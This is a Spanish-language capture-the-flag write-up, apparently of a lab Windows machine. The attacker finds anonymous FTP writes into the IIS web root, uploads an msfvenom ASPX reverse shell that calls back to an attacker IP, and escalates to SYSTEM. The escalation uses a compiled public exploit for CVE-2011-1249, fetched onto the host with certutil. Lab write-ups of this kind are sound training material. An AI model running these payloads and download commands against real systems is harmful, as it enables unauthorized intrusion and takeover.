
Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS 10.10.10.5
Completed SYN Stealth Scan at 14:40, 27.00s elapsed (65535 total ports)
Nmap scan report for 10.10.10.5
Host is up, received user-set (0.31s latency).
Scanned at 2024-06-05 14:40:13 -03 for 27s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
21/tcp open ftp syn-ack ttl 127
80/tcp open http syn-ack ttl 127
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p21,80 10.10.10.5
Host is up (0.27s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-syst:
|_ SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17 02:06AM <DIR> aspnet_client
| 03-17-17 05:37PM 689 iisstart.htm
|_03-17-17 05:37PM 184946 welcome.png
80/tcp open http Microsoft IIS httpd 7.5
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Utilizaremos whatweb para ver las tecnologías que está utilizando el sitio:

Si accedemos a través del puerto 80, solo vemos el portal de IIS:

Aprovechando que el usuario anonymous está habilitado, nos conectamos al FTP y listamos el contenido:

Si nos descargamos el archivo iisstart.htm, vemos que es el mismo contenido que se ve al inspeccionar el sitio de la web, por lo que existe una relación entre el FTP y el servicio web:

Para garantizarlo, vamos a crear un archivo txt y subirlo:
echo "Esto es una prueba" > pwned.txt

Si lo abrimos desde la web, vemos el contenido:

Intrusión
Ya que podemos subir archivos, vamos a crear un payload con mfsvenom, utilizando como tipo de archivo aspx:
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.19 LPORT=443 -o shell.aspx

Nos quedamos a la escucha con netcat. Luego ejecutamos el binario accediendo a http://10.10.10.5/shell.aspx y obtenemos la Reverse Shell:

Escalación de privilegios
En la sesión que obtuvimos, estamos logueados como iis apppool\web.
Para escalar privilegios, utilizaremos Windows Exploit Suggester - Next Generation (WES-NG)
Inicialmente, ejecutaremos el comando systeminfo y nos guardaremos el contenido. Luego, ejecutaremos la herramienta de la siguiente manera:
./wes.py --update
./wes.py systeminfo.txt -i "Elevation of Privilege"

Vemos un montón de contenido, buscamos por alguna entrada que tenga exploits asociados y damos con el CVE-2011-1249. Lo descargamos, y es necesario compilarlo (el mismo exploit en los comentarios te indica cómo hacerlo):
i686-w64-mingw32-gcc 40564.c -o privEsc.exe -lws2_32
Podríamos subirlo por el FTP, pero aprovechando que ya tenemos la shell, levantamos un servidor web con pyhon3 -m http.server y desde la PC víctima usamos certutil:
certutil.exe -f -urlcache -split http://10.10.14.19/privEsc.exe privEsc.exe
Al ejecutarlo, logramos escalar privilegios:

Desde aquí podemos ver ambas flags:
